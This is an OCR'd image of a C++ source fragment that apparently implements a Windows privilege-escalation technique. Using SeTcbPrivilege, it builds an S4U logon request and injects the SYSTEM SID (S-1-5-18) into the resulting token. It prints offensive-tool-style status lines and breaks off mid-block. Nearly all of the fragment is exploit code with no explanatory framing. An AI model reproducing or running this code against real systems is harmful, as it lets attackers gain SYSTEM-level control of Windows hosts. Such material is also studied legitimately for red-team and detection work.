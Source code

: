 ```c++
	TOKEN_MANDATORY_LABEL TIL = { 0 };

	LPCWSTR szDomain = L".";
	LPCWSTR szUsername = L"John";//the user who has SeTcbPrivilege

	WCHAR systemSID[] = L"S-1-5-18";
	ConvertStringSidToSidW(systemSID, &pExtraSid);

	WCHAR mediumInt[] = L"S-1-16-8192";
	PSID mediumSID = NULL;
	ConvertStringSidToSidW(mediumInt, &mediumSID);

	HANDLE hThreadToken = NULL;
	PTOKEN_MANDATORY_LABEL pTokenIntegrityLevel = NULL;
	DWORD dwLength;
	LPWSTR lpGroupSid;

	if (!GetLogonSID(hToken, &pLogonSid))
	{
		wprintf(L"[-] Unable to find logon SID.\n");
		goto Clear;
	}

	if (!NT_SUCCESS(LsaInit()))
	{
		wprintf(L"[-] Failed to start kerberos initialization.\n");
		goto Clear;
	}

	wprintf(L"[*] Initialize S4U login.\n");
	// Create MSV1_0_S4U_LOGON structure
	dwMsgS4ULength = sizeof(MSV1_0_S4U_LOGON) + (EXTRA_SID_COUNT + (DWORD)wcslen(szDomain) + (DWORD)wcslen(szUsername)) * sizeof(WCHAR);
	pS4uLogon = (PMSV1_0_S4U_LOGON)LocalAlloc(LPTR, dwMsgS4ULength);
	if (pS4uLogon == NULL)
	{
		wprintf(L"[-] LocalAlloc Error: [%u].", GetLastError());
		goto Clear;
	}

	pS4uLogon->MessageType = MsV1_0S4ULogon;
	pbPosition = (PBYTE)pS4uLogon + sizeof(MSV1_0_S4U_LOGON);
	pbPosition = InitUnicodeString(&pS4uLogon->UserPrincipalName, szUsername, pbPosition);
	pbPosition = InitUnicodeString(&pS4uLogon->DomainName, szDomain, pbPosition);

	strcpy_s(TokenSource.SourceName, TOKEN_SOURCE_LENGTH, "User32");
	AllocateLocallyUniqueId(&TokenSource.SourceIdentifier);

	// Add extra SID to token.
	// If the application needs to connect to a Windows Desktop, Logon SID must be added to the Token.
	wprintf(L"[*] Add extra SID S-1-5-18 to token.\n");
	pGroups = (PTOKEN_GROUPS)LocalAlloc(LPTR, sizeof(TOKEN_GROUPS) + 2 * sizeof(SID_AND_ATTRIBUTES));
	if (pGroups == NULL)
	{
		wprintf(L"[-] LocalAlloc Error: [%u].", GetLastError());
		goto Clear;
	}

	// Add Logon Sid, if present.
	if (pLogonSid)
	{
```